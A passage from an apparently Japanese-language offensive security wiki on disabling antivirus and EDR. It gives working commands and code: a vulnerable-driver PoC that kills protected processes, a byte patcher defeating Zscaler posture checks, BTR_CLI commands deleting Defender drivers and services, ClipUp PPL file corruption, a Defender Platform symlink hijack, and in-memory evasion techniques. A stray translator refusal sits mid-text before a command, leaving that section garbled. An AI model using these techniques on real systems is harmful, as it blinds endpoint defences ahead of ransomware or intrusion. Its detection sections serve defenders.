https://github.com/praetorian-code/vulcan
```

### さらに

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – Kernel Space から AV/EDR を無効化する

Storm-2603 は、ランサムウェアを展開する前にエンドポイント保護を無効化するため、**Antivirus Terminator** として知られる小型のコンソールユーティリティを利用しました。このツールは**脆弱だが *署名済み* のドライバーを独自に持ち込み**、それを悪用して、Protected-Process-Light (PPL) 対応の AV サービスでもブロックできない、特権を伴うカーネル操作を実行します。<sup>[[12]](#references)</sup>

主なポイント
1. **署名済みドライバー**: ディスクに書き込まれるファイルは `ServiceMouse.sys` ですが、実体は Antiy Labs の「System In-Depth Analysis Toolkit」に含まれる、正規に署名されたドライバー `AToolsKrnl64.sys` です。このドライバーは有効な Microsoft 署名を持つため、Driver-Signature-Enforcement (DSE) が有効でも読み込まれます。
2. **サービスのインストール**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   1行目でドライバーを**kernel service**として登録し、2行目で起動すると、`\\.\ServiceMouse`がuser landからアクセス可能になります。
3. **ドライバーが公開するIOCTL**
   | IOCTL code | Capability                              |
   |-----------:|-----------------------------------------|
   | `0x99000050` | PIDを指定して任意のプロセスを終了する（Defender/EDRサービスの停止に使用） |
   | `0x990000D0` | ディスク上の任意のファイルを削除する |
   | `0x990001D0` | ドライバーをアンロードし、サービスを削除する |

   最小限のC proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **動作する理由**: BYOVDはユーザーモードの保護を完全に迂回します。カーネルで実行されるコードは、PPL/PP、ELAM、その他のハードニング機能に関係なく、*保護された*プロセスを開いたり、終了させたり、カーネルオブジェクトを改ざんしたりできます。

検知 / 緩和策
•  Microsoftの脆弱なドライバーのブロックリスト（`HVCI`、`Smart App Control`）を有効にし、Windowsが`AToolsKrnl64.sys`を読み込まないようにします。
•  新しい*カーネル*サービスの作成を監視し、world-writableなディレクトリからドライバーが読み込まれた場合や、allow-listに含まれていない場合にアラートを出します。
•  カスタムデバイスオブジェクトへのユーザーモードのハンドルと、それに続く不審な`DeviceIoControl`呼び出しを監視します。

### ディスク上のバイナリpatchingによるZscaler Client Connectorのポスチャチェックの迂回

Zscalerの**Client Connector**はデバイスのポスチャルールをローカルで適用し、その結果を他のコンポーネントに伝えるためにWindows RPCに依存しています。設計上の弱点が2つあるため、完全な迂回が可能です。

1. ポスチャ評価は**すべてクライアント側で**行われる（booleanがサーバーに送信される）。
2. 内部RPCエンドポイントは、接続元の実行ファイルがZscalerによって署名されていることだけを（`WinVerifyTrust`経由で）検証します。<sup>[[11]](#references)</sup>

**ディスク上の署名済みバイナリ4つをpatchingする**ことで、両方の仕組みを無効化できます。

| バイナリ | patchingされる元のロジック | 結果 |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | 常に`1`を返すため、すべてのチェックが準拠扱いになる |
| `ZSAService.exe` | `WinVerifyTrust`への間接呼び出し | NOP化 ⇒ 任意のプロセス（署名なしでも）がRPCパイプにバインドできる |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | `mov eax,1 ; ret`に置き換えられる |
| `ZSATunnel.exe` | トンネルの整合性チェック | 短絡される |

最小限のpatcherの抜粋:

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```

元のファイルを置き換えてサービススタックを再起動すると:

* **すべての** posture check が **green/compliant** と表示されます。
* 署名されていない、または改変されたバイナリが、名前付きパイプの RPC エンドポイント（例: `\\RPC Control\\ZSATrayManager_talk_to_me`）を開けるようになります。
* 侵害されたホストは、Zscaler ポリシーで定義された内部ネットワークに無制限にアクセスできるようになります。

このケーススタディでは、クライアント側だけで行われる信頼判断と単純な署名チェックが、わずかなバイトパッチで回避されることを示します。

## Microsoft Defender `BTR.sys` の信頼された機能の悪用

Defender の **Boot-Time Removal** ドライバーは、従来の BYOVD に対する有用な反例です。`BTR.sys` は、メモリ破損バグも IOCTL インターフェースもない、正規の Microsoft 署名付き修復コンポーネントです。管理者アクセスと `SeLoadDriverPrivilege` を取得した後、オペレーターは代わりに、プライベートな修復トランザクションを偽造して、意図された Ring-0 のファイル／レジストリ操作を実行できます。これは **初期アクセスや権限昇格ではなく、侵害後の AV/EDR 無力化プリミティブ** であり、目立つサードパーティ製ドライバーを持ち込む代わりに、対象ホスト自身の `MpEngine.dll` に含まれる `BOOTTIMETOOL` リソースからドライバーを抽出できます。<sup>[[36]](#references)</sup>

### ワンショットドライバーのステージング

Defender は通常、このリソースをランダムな `[a-z]{8}.sys` ファイルとして展開し、同様の名前のカーネルサービスを登録します。`DriverEntry` はサービスの `Args` 値を読み取り、参照先の NTFS ADS を開いてアクションリストを復号・検証し、フィードバックを書き込みます。実行に成功すると `0xC0000056`（`STATUS_DELETE_PENDING`）を返し、ドライバーが常駐せずアンロードされるようにします。偽造したサービスには、次のような特徴的な値が設定されます。<sup>[[36]](#references)[[37]](#references)</sup>

```text
Type         = 1
Start        = 1
ErrorControl = 0
ImagePath    = \??\C:\Windows\System32\drivers\<random>.sys
Group        = Boot Bus Extender
Args         = C:\Windows\System32\drivers\<random>.sys:changelist
```

`:changelist` ストリームには、RC4で暗号化された blob が1つ含まれます。解析対象のビルドでは固定の256バイトキーが再利用されているため、暗号化は認可境界にはなりません。有効な平文は24バイトのグローバルヘッダー（`Magic=0xFEE1DEAD`, `Version=2`, `PayloadOffset=0x10`、ヘッダーCRC、ペイロードから導出されるトランザクションID）に続き、NUL終端のUTF-16フィードバックパスと任意の数のアイテムで構成されます。各アイテムは16バイトのヘッダー（`DataSize`, `Action`, `HeaderCRC`, `DataCRC`）と、アクション固有のデータで構成され、末尾は**正確に4バイトのNUL**でなければなりません。各ヘッダー領域とデータ領域は、CRC-32多項式`0xEDB88320`、初期状態`0xFFFFFFFF`、**最終XORなし**（`~CRC32`）で個別に検証されます。領域ごとにCRC状態はリセットされます。<sup>[[36]](#references)[[37]](#references)</sup>

受け入れられるアクションIDにより、次のカーネルプリミティブが利用可能になります。<sup>[[36]](#references)[[37]](#references)</sup>

| ID | アイテムデータ | 結果 |
| --- | --- | --- |
| 1 | `[UTF-16 path]` | ロック中のファイルを含むファイルの削除 |
| 2 | `[UTF-16 path]` | 空のディレクトリの削除 |
| 3 | `[Flags][source][destination]` | 攻撃者が指定した保護パスへのファイル移動。destinationが空の場合は削除 |
| 4 | `[Flags][key path]` | レジストリキーの再帰的な削除 |
| 5 | `[Flags][key path + "\\" + value]` | レジストリ値の削除 |
| 6 | `[Flags][type][size][key path + "\\" + value][data]` | レジストリ値の作成・更新、および不足しているキー パスの作成 |

アクション5と6では、オンワイヤー上のキーと値の区切り文字は**連続する2つのバックスラッシュ**です。一般的な形式のパスでは正しく分割されません。フィードバックファイルは主にリクエストを反映しますが、各アイテムのデータの先頭4バイトは、処理結果の`NTSTATUS`になります。先頭にflagsフィールドがないアクション1と2では、BTRはステータス用の領域を確保するため、パスを末尾の予約済み4バイトに移動します。<sup>[[36]](#references)</sup>

### `BTR_CLI`のワークフローと起動初期の実行機会

[`BTR_CLI`](https://github.com/Dump-GUY/BTR_CLI)は、一連の処理をすべて実装しています。ローカルのDefenderから`BTR.sys`を抽出し、`<random>.sys:changelist`とフィードバックストリームを作成し、アクションを連結してシリアライズ、チェックサム計算、暗号化したうえで、サービスのレジストリキーを直接作成します。その後、`-trigger now`では`NtLoadDriver`を呼び出し、`-trigger boot`ではシステム起動時に開始するドライバーとして登録します。レジストリを直接ステージングすることで、通常のSCM `CreateServiceW`経路を回避するため、サービスインストールのEvent ID 7045は生成されません。起動時にトリガーされるアーティファクトは、後から`BTR_CLI.exe -cleanup <service_name>`で削除できます。<sup>[[36]](#references)[[37]](#references)</sup>

```powershell
# Runtime: remove protected security-service registrations from Ring 0
BTR_CLI.exe -chain -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WdFilter" -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" -trigger now

# Boot: delete a security driver before its user-mode protection stack starts
BTR_CLI.exe -a 1 -s "C:\Windows\System32\drivers\wd\WdFilter.sys" -trigger boot
```

`Start=0`は使用できません。BTRはストレージスタックと`SystemRoot`リンクの準備が整う前に、`DriverEntry`からファイルI/Oを実行するためです。`Start=1`と高優先度の`Boot Bus Extender`グループを組み合わせると、Phase 1で実行されます。この時点ではNTFSは使用可能ですが、多くのシステム起動セキュリティドライバーやユーザーモードのEDRサービスはまだ初期化されていません。`WdFilter`などのブート起動フィルターはすでにロードされている可能性がありますが、BTRは次回起動までにそれらのバイナリやサービス構成を削除でき、SCMがサービス実行ファイルを起動する前に削除することもできます。BTRはブート起動の評価後に実行され、有効なMicrosoft署名を持つため、ELAMではこのギャップを埋められません。<sup>[[36]](#references)</sup>

複数のアクションが1つのトランザクション内で実行されます。PoCでは、ハードコードされた`\SystemRoot\Temp\BootClean.log`に対するAction 1を先頭に追加します。BTRはこのログを作成し、その後、自身の削除要求を処理してアンロード前にログを削除します。これにより証拠が減少します。また、フィードバックを`<random>.sys:<random>.dat`に配置すれば、ドライバーと両方のストリームをまとめて削除できます。<sup>[[36]](#references)[[37]](#references)</sup>

### 高シグナルの検出相関

署名だけに基づくルールやMicrosoftの脆弱なドライバーのブロックリストでは、BTRの本来の機能を悪用する行為に対処できません。正規のDefenderの系統と任意のランチャーを区別しながら、次のような振る舞いの相関を優先してください。<sup>[[36]](#references)</sup>

- **Sysmon 15:** `.sys:changelist`の作成は、BTRのステージングで必ず発生します。同じ`.sys`に付加された`.dat` ADSは特に疑わしいものです。正規のDefenderは通常、フィードバックを`C:\ProgramData\Microsoft\Windows Defender\Scans\RebootActions\`以下に配置するためです。
- **System 7045を伴わないSysmon 12/13:** `Args=...:changelist`および`Group=Boot Bus Extender`を含む`HKLM\SYSTEM\CurrentControlSet\Services\<random>`の直接作成を、対応するSCMインストールイベントがない場合に相関させます。
- **Sysmon 6 -> 23:** 既知のBTRドライバーがDefender以外の系統からロードされた後、特にセキュリティ関連バイナリについて、`System`/PID 4によるファイル削除が発生していないか相関させます。
- **Sysmon 11 -> 23:** `System`/PID 4による`\SystemRoot\Temp\BootClean.log`の短時間での作成と削除をアラートします。
- `SeLoadDriverPrivilege`の割り当てと有効化を制限し、監査してください。`cmd.exe`、PowerShell、不明なプロセスによってセキュリティツールのドライバーがステージングされる場合、Microsoft署名だけでは信頼性の根拠として不十分です。

## LOLBINによるProtected Process Light (PPL)の悪用とAV/EDRの改ざん

Protected Process Light (PPL)は署名者/レベルの階層を適用し、同等以上に保護されたプロセスのみが互いに改ざんできるようにします。攻撃者の視点では、PPL対応バイナリを正規の方法で起動でき、その引数を制御できる場合、ログ記録などの無害な機能を、AV/EDRが使用する保護ディレクトリに対する、制約付きのPPLベースの書き込みプリミティブに転用できます。<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

PPLとしてプロセスを実行する条件
- 対象のEXE（およびロードされるDLL）は、PPL対応のEKUで署名されている必要があります。
- `EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS`フラグを指定し、CreateProcessを使ってプロセスを作成する必要があります。
- バイナリの署名者に一致する互換性のある保護レベルを要求する必要があります（例: マルウェア対策署名者には`PROTECTION_LEVEL_ANTIMALWARE_LIGHT`、Windows署名者には`PROTECTION_LEVEL_WINDOWS`）。レベルが正しくない場合、作成に失敗します。

PP/PPLとLSASSの保護に関する全般的な入門情報については、こちらも参照してください。

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

ランチャーツール
- オープンソースのヘルパー: CreateProcessAsPPL（保護レベルを選択し、引数を対象のEXEに渡す）:
  - [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- 使用パターン:

```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```

この内容は、PPL を利用して保護された AV ファイルを改変し、起動を妨げる具体的な手順を含むため、翻訳できません。防御目的であれば、ClipUp.exe の不審な実行、保護ディレクトリへの書き込み、起動時サービスの順序を監視する方法なら説明できます。

```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```

注意事項と制約
- ClipUp が書き込む内容は配置場所を除いて制御できません。このプリミティブは、正確な内容の注入ではなく破損に適しています。
- サービスのインストールと起動、および再起動のタイミングを確保するには、ローカル管理者/SYSTEM 権限が必要です。
- タイミングが重要です。対象が開かれていない必要があります。起動時に実行すれば、ファイルロックを回避できます。

検出
- `ClipUp.exe` が通常とは異なる引数で起動されていないか、特に標準外のランチャーを親プロセスとする起動が、起動時前後に発生していないか確認します。
- 疑わしいバイナリを自動起動するよう設定された新しいサービスや、Defender/AV より常に先に起動するサービスを確認します。Defender の起動失敗の前にサービスが作成・変更されていないか調査します。
- Defender のバイナリ/Platform ディレクトリに対するファイル整合性監視を行います。保護プロセスフラグを持つプロセスによる予期しないファイルの作成・変更を確認します。
- ETW/EDR テレメトリでは、`CREATE_PROTECTED_PROCESS` を指定して作成されたプロセスや、AV 以外のバイナリによる異常な PPL レベルの使用を確認します。

緩和策
- WDAC/Code Integrity: PPL として実行できる署名済みバイナリと、その親プロセスを制限します。正当なコンテキスト以外での ClipUp の起動をブロックします。
- サービスの管理: 自動起動サービスの作成・変更を制限し、起動順序の操作を監視します。
- Defender の改ざん防止と早期起動保護が有効になっていることを確認します。バイナリの破損を示す起動エラーを調査します。
- 環境との互換性がある場合は、セキュリティツールを配置しているボリュームで 8.3 短縮名の生成を無効にすることを検討します（十分にテストしてください）。

## Microsoft Defender を Platform バージョンフォルダーの Symlink Hijack で改ざんする

Windows Defender は、次の場所にあるサブフォルダーを列挙して、実行する Platform を選択します。
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

最も大きい辞書順のバージョン文字列（例: `4.18.25070.5-0`）を持つサブフォルダーを選択し、そこから Defender サービスのプロセスを起動します（それに応じてサービス/レジストリのパスも更新されます）。この選択では、ディレクトリの再解析ポイント（symlink を含む）も信頼されます。管理者はこれを利用して Defender を攻撃者が書き込み可能なパスにリダイレクトし、DLL sideloading やサービス妨害を実現できます。<sup>[[21]](#references)[[22]](#references)</sup>

前提条件
- ローカル管理者（Platform フォルダー内にディレクトリ/symlink を作成するために必要）
- 再起動、または Defender による Platform の再選択を発生させる手段（起動時のサービス再起動）
- 組み込みツールのみで実行可能（mklink）

動作する理由
- Defender は自身のフォルダーへの書き込みをブロックしますが、Platform の選択ではディレクトリエントリを信頼し、対象が保護された/信頼できるパスに解決されるかを検証せずに、辞書順で最も大きいバージョンを選択します。

手順（例）
1) 現在の Platform フォルダーの書き込み可能なコピーを、たとえば `C:\TMP\AV` に用意します。
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Platform 内に、自分のフォルダーを指す、より高いバージョンのディレクトリ symlink を作成します:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) トリガーの選択（再起動を推奨）:
```cmd
shutdown /r /t 0
```
4) MsMpEng.exe (WinDefend) がリダイレクト先のパスから実行されていることを確認します:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
新しいプロセスパスが `C:\TMP\AV\` 配下にあり、サービス設定／レジストリにもその場所が反映されていることを確認してください。

Post-exploitation options
- DLL sideloading/code execution: Defender がアプリケーションディレクトリから読み込む DLL を配置／置換し、Defender のプロセス内でコードを実行します。上記のセクションを参照してください: [DLL Sideloading & Proxying](#dll-sideloading--proxying)。
- Service kill/denial: バージョンシンボリックリンクを削除すると、次回起動時に設定されたパスが解決されず、Defender の起動に失敗します:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```

> [!TIP]
> この手法だけでは権限昇格できない点に注意してください。管理者権限が必要です。

## API/IAT Hooking + Call-Stack Spoofing with PIC (Crystal Kit-style)

レッドチームは、対象モジュールの Import Address Table (IAT) をフックし、選択した API を攻撃者が制御する position-independent code (PIC) に経由させることで、実行時の回避処理を C2 implant から対象モジュール自体へ移せます。この方法により、多くの kit が公開する限られた API 群（例: CreateProcessA）を超えて回避処理を汎用化し、同じ保護を BOF や post-exploitation DLL にも適用できます。<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

概要
- reflective loader を使い、対象モジュールとともに PIC blob を配置します（先頭に追加するか、コンパニオンとして配置）。PIC は自己完結型で、position-independent である必要があります。
- ホスト DLL の読み込み時に、その IMAGE_IMPORT_DESCRIPTOR をたどり、対象の import（例: CreateProcessA/W、CreateThread、LoadLibraryA/W、VirtualAlloc）の IAT エントリを、薄い PIC wrapper を指すように書き換えます。
- 各 PIC wrapper は、実際の API アドレスへ tail-call する前に回避処理を実行します。一般的な回避処理は次のとおりです。
  - 呼び出しの前後でメモリをマスク／アンマスクする（例: beacon 領域の暗号化、RWX→RX、ページ名／権限の変更後、呼び出し後に元に戻す）。
  - Call-Stack Spoofing: 無害なスタックを構築して対象 API へ移行し、call-stack 解析で想定どおりのフレームが解決されるようにします。<sup>[[9]](#references)</sup>
- 互換性を保つため、Aggressor script（または同等のもの）が Beacon、BOF、post-ex DLL 用にフックする API を登録できるインターフェースを export します。

ここで IAT hooking を使う理由
- フックした import を使うコードなら、ツールのコードを変更せず、Beacon に特定 API の proxy を任せることもなく動作します。
- post-ex DLL にも対応します。LoadLibrary* をフックすれば、モジュールの読み込み（例: System.Management.Automation.dll、clr.dll）をインターセプトし、それらの API 呼び出しにも同じメモリマスク／スタック回避を適用できます。
- CreateProcessA/W を wrapper で囲むことで、call-stack ベースの検知に対して、プロセスを生成する post-ex コマンドを安定して使えるようになります。

最小限の IAT hook の概要（x64 C/C++ 疑似コード）
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
メモ
- relocations/ASLR の後、import の初回使用前にパッチを適用します。TitanLdr/AceLdr などの Reflective loader は、ロードしたモジュールの DllMain 内で hook する例です。
- wrapper は小さく保ち、PIC-safe にします。パッチ適用前に取得した元の IAT 値、または LdrGetProcedureAddress を使って、本来の API を解決します。
- PIC では RW → RX の遷移を使い、書き込み可能かつ実行可能なページを残さないようにします。

Call-stack spoofing stub
- Draugr 方式の PIC stub は、偽の call chain（良性モジュール内の return address）を構築し、その後、本物の API に処理を渡します。
- これにより、Beacon/BOFs からセンシティブな API への正規の stack を想定する検知を回避できます。
- stack cutting/stack stitching の手法と組み合わせ、API prologue の前に想定される frame 内へ処理を移します。

運用への統合
- Reflective loader を post-ex DLL に追加し、DLL のロード時に PIC と hooks が自動で初期化されるようにします。
- Aggressor script で対象 API を登録すれば、コードを変更せずに Beacon と BOFs が同じ evasion path の恩恵を受けられます。

検知/DFIR での考慮事項
- IAT integrity: non-image（heap/anon）アドレスを指す entry、import pointer の定期的な検証。
- Stack anomalies: ロード済み image に属さない return address、non-image PIC への急な遷移、一貫性のない RtlUserThreadStart の祖先関係。
- Loader telemetry: プロセス内での IAT 書き込み、import thunk を変更する DllMain の早期処理、ロード時に作成される予期しない RX region。
- Image-load evasion: LoadLibrary* を hook する場合は、memory masking イベントに関連する automation/clr assembly の不審なロードを監視します。

関連する構成要素と例
- ロード中に IAT patching を行う Reflective loader（例: TitanLdr、AceLdr）
- Memory masking hooks（例: simplehook）と stack-cutting PIC（stackcutting）
- PIC call-stack spoofing stub（例: Draugr）


## Import-Time IAT Hooking + Sleep Obfuscation (Crystal Palace/PICO)

### 常駐 PICO による import-time IAT hooks

Reflective loader を制御できる場合、loader の `GetProcAddress` pointer を、まず hooks を確認する独自 resolver に置き換えることで、`ProcessImports()` の**実行中**に import を hook できます:<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- 一時的な loader PIC が自身を解放した後も存続する**常駐 PICO**（persistent PIC object）を構築します。
- loader の import resolver を上書きする `setup_hooks()` 関数を export します（例: `funcs.GetProcAddress = _GetProcAddress`）。
- `_GetProcAddress` では ordinal import をスキップし、`__resolve_hook(ror13hash(name))` のような hash ベースの hook lookup を使います。hook があればそれを返し、なければ本物の `GetProcAddress` に処理を委譲します。
- Crystal Palace の `addhook "MODULE$Func" "hook"` entry を使って、link 時に hook target を登録します。hook は常駐 PICO 内にあるため有効な状態を保ちます。

これにより、ロード後に DLL の code section を patch することなく、**import-time IAT redirection** を実現できます。

### 対象が PEB-walking を使う場合に hook 可能な import を強制する

import-time hooks が機能するのは、その関数が実際に対象の IAT に存在する場合だけです。モジュールが PEB-walk + hash で API を解決し（import entry がない場合）、loader の `ProcessImports()` 経路に認識させるには、本物の import を強制します。

- hash による export 解決（例: `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`）を、`&WaitForSingleObject` のような直接参照に置き換えます。
- これにより compiler が IAT entry を出力し、Reflective loader が import を解決する際に interception が可能になります。

### `Sleep()` を patch しない Ekko 方式の sleep/idle obfuscation

`Sleep` を patch する代わりに、implant が実際に使用する**wait/IPC primitive**（`WaitForSingleObject(Ex)`、`WaitForMultipleObjects`、`ConnectNamedPipe`）を hook します。長時間の wait では、idle 中にメモリ上の image を暗号化する Ekko 方式の obfuscation chain で call をラップします:<sup>[[31]](#references)[[27]](#references)</sup>

- `CreateTimerQueueTimer` を使って、作成した `CONTEXT` frame で `NtContinue` を呼び出す callback の sequence をスケジュールします。
- 一般的な chain（x64）: image を `PAGE_READWRITE` に設定 → `advapi32!SystemFunction032` で map 済み image 全体を RC4 encrypt → blocking wait を実行 → RC4 decrypt → PE section を走査して**section ごとの permission を復元** → 完了を通知。
- `RtlCaptureContext` で template `CONTEXT` を取得し、それを複数の frame に clone して、各 step を呼び出すための register（`Rip/Rcx/Rdx/R8/R9`）を設定します。

運用上の詳細: image が mask されている間に caller が処理を続けるよう、長い wait では `WAIT_OBJECT_0` などの「success」を返します。このパターンは idle 中に scanner から module を隠し、典型的な「patched `Sleep()`」signature を避けます。

検知のアイデア（telemetry ベース）
- `NtContinue` を指す `CreateTimerQueueTimer` callback の連続発生。
- image サイズ相当の大きな連続 buffer に対する `advapi32!SystemFunction032` の使用。
- 大きな範囲への `VirtualProtect` の後に行われる、独自の section ごとの permission 復元。

### sleep-obfuscation gadget の runtime CFG registration

CFG が有効な対象では、`jmp [rbx]` や `jmp rdi` などの function 中間部にある gadget への最初の indirect jump は、通常、その gadget が module の CFG metadata に含まれていないため、`STATUS_STACK_BUFFER_OVERRUN` でプロセスを crash させます。強化されたプロセス内で Ekko/Kraken 方式の chain を動作させるには:<sup>[[30]](#references)</sup>

- chain で使用する各 indirect destination を、`NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` と `CFG_CALL_TARGET_VALID` entry で登録します。
- ロード済み image（`ntdll`、`kernel32`、`advapi32`）内の address では、`MEMORY_RANGE_ENTRY` の開始位置を**image base**にし、**image 全体のサイズ**を範囲に指定する必要があります。
- 手動 map/PIC/stomp された region では、代わりに**allocation base**と allocation size を使います。
- dispatch gadget だけでなく、間接的に呼び出される export（`NtContinue`、`SystemFunction032`、`VirtualProtect`、`GetThreadContext`、`SetThreadContext`、wait/event syscall）や、間接 target となる attacker-controlled な実行可能 section も登録します。

これにより、ROP/JOP 方式の sleep chain は「CFG が無効なプロセスでのみ動作する」ものではなくなり、`/guard:cf` 付きで compile された `explorer.exe`、browser、`svchost.exe`、その他の endpoint でも再利用できる primitive になります。

### sleep 中の thread に対する CET-safe stack spoofing

`CONTEXT` を全面的に置き換える手法は目立ちやすく、また spoof した `Rip` が hardware shadow stack と一致する必要があるため、CET Shadow Stack システムで問題を起こす可能性があります。より安全な sleep-masking pattern は次のとおりです:<sup>[[30]](#references)</sup>

- 同じプロセス内の別の thread を選び、`NtQueryInformationThread` を使って `NT_TIB` / TEB の stack bounds（`StackBase`、`StackLimit`）を読み取ります。
- 現在の thread の実際の TEB/TIB を backup します。
- `GetThreadContext` で実際の sleep 中の context を取得します。
- 実際の `Rip`**だけ**を spoof context にコピーし、spoof した `Rsp`/stack state はそのままにします。
- sleep 中は、spoof thread の `NT_TIB` を現在の TEB にコピーし、stack walker が正規の stack 範囲内で unwind するようにします。
- wait が終わったら、元の TIB と thread context を復元します。

これにより CET と整合する instruction pointer を維持しつつ、TEB の stack metadata を信頼して unwind を検証する EDR stack walker を誤認させます。

### APC ベースの代替手段: Kraken Mask

timer-queue dispatch の signature が目立ちすぎる場合、同じ sleep-encrypt-spoof-restore sequence を、queued APC を使って suspend 状態の helper thread から実行できます:<sup>[[27]](#references)</sup>

- entrypoint を `NtTestAlert` にして helper thread を作成します。
- `NtQueueApcThread` で準備済みの `CONTEXT` frame/APC を queue に入れ、`NtAlertResumeThread` で処理します。
- default の 64 KB thread stack を使い切らないよう、chain state は helper stack ではなく heap に保存します。
- `NtSignalAndWaitForSingleObject` を使って、start event の通知と block を atomic に行います。
- 半端な stack 復元状態を scanner に検出される race window を減らすため、TIB/context を復元する前に main thread を suspend します（`NtSuspendThread` → restore → `NtResumeThread`）。

これにより、同じ RC4 masking と stack-spoofing の目的を保ちながら、`CreateTimerQueueTimer` + `NtContinue` の signature を helper-thread/APC の signature に置き換えられます。

追加の検知アイデア
- sleep、wait、APC dispatch の直前に発生する、`VmCfgCallTargetInformation` を指定した `NtSetInformationVirtualMemory`。
- `WaitForSingleObject(Ex)`、`NtWaitForSingleObject`、`NtSignalAndWaitForSingleObject`、`ConnectNamedPipe` の前後で使われる `GetThreadContext`/`SetThreadContext`。
- `NtQueryInformationThread` の後に行われる、現在の thread の TEB/TIB stack bounds への直接書き込み。
- `SystemFunction032`、`VirtualProtect`、section-permission restoration helper に間接的に到達する `NtQueueApcThread`/`NtAlertResumeThread` chain。
- 署名済み module 内で dispatch pivot として繰り返し使われる、`FF 23`（`jmp [rbx]`）や `FF E7`（`jmp rdi`）などの短い gadget signature。


## Precision Module Stomping

Module stomping は、明らかに検知されやすい private executable memory を割り当てたり、新しい sacrificial DLL をロードしたりする代わりに、対象プロセス内にすでに map されている DLL の**`.text` section**から payload を実行します。上書き先には、プロセスが依然として必要とする code path を壊さずに payload を格納できる、**ロード済みで disk-backed の image**を選びます。<sup>[[1]](#references)[[2]](#references)</sup>

### 信頼性の高い target の選定

`uxtheme.dll` や `comctl32.dll` などの一般的な module を使った素朴な stomping は不安定です。DLL が remote process にロードされていない場合があり、code region が小さすぎるとプロセスが crash する可能性があります。より信頼性の高い手順は次のとおりです。

1. 対象プロセスの module を列挙し、すでにロードされている DLL の**名前のみの include list**を作成します。
2. 最初に payload を build し、**正確な byte size**を記録します。
3. 候補 DLL を disk 上で調べ、PE section の **`.text` `Misc_VirtualSize`** と payload size を比較します。これは file size より重要です。map 時の executable section のサイズを反映するためです。
4. **Export Address Table (EAT)** を parse し、stomp 開始 offset として export された関数の RVA を選びます。
5. **blast radius**を計算します。payload が選択した関数の境界を超えると、メモリ上で後続に配置された隣接 export も上書きされます。

実環境で見られる一般的な recon/選定 helper:

```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```

運用上の注意
- `LoadLibrary` のテレメトリや予期しない image load を避けるため、リモートプロセスですでに **ロード済み** の DLL を優先する。
- 対象アプリケーションで実行される頻度が低い export を優先する。そうでない場合、スレッド作成の前後に通常のコードパスが stomp されたバイト列に到達する可能性がある。
- 大きな implant では、injector のソースコードでバッファ全体を正しく表現できるよう、shellcode の埋め込み方法を文字列リテラルから **byte-array/braced initializer** に変更する必要があることが多い。

検出のアイデア
- よく使われる private RWX/RX allocation ではなく、**image-backed executable pages**（`MEM_IMAGE`、`PAGE_EXECUTE*`）へのリモート書き込み。
- メモリ上のバイト列がディスク上の backing file と一致しなくなった export のエントリポイント。
- 先頭のバイト列が最近変更された正規 DLL export 内から実行を開始するリモートスレッドや context pivot。
- DLL の `.text` ページに対する `VirtualProtect(Ex)` / `WriteProcessMemory` の呼び出し後にスレッドが作成される不審なシーケンス。

## Process Parameter Poisoning (P3)

